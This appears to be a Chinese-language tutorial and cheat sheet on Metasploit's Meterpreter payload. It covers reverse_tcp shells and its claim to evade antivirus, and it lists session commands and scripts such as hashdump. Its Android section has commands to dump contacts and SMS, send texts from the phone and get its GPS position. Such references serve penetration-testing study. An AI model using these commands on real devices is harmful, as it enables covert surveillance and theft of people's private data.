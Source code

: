 # 一、 Meterpreter是什么

> Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。


# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令
> **注意:** 
> **下方所有的命令都是在** **meterpreter > 的黑窗口中操作的**

## 1.基本命令
```markdown
help         # 查看帮助

background    #返回，把meterpreter后台挂起
bgkill        # 杀死一个 meterpreter 脚本
bglist        #提供所有正在运行的后台脚本的列表
bgrun         #作为一个后台线程运行脚本
channel       #显示活动频道
sessions -i number      # 与会话进行交互，number表示第n个session,
                        # 使用session -i 连接到指定序号的meterpreter会话已继续利用
                        
sesssions -k  number    #与会话进行交互

close         # 关闭通道
exit          # 终止 meterpreter 会话
quit          # 终止 meterpreter 会话
interact id   #切换进一个信道
run            #执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，
                常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
irb           # 进入 Ruby 脚本模式
read          # 从通道读取数据write# 将数据写入到一个通道
run和bgrun    # 前台和后台执行以后它选定的 meterpreter 脚本
use           # 加载 meterpreter 的扩展
load/use      #加载模块
Resource			#执行一个已有的rc脚本
```

## 常用命令
### 针对安卓手机的一些命令
```markdown
# 获取手机通讯录
dump_contacts

#获取短信记录
dump_sms

# 控制实验手机发短信
send_sms -d 15330252525 -t "hello"

# 获取实验手机GPS定位信息
geolocate

```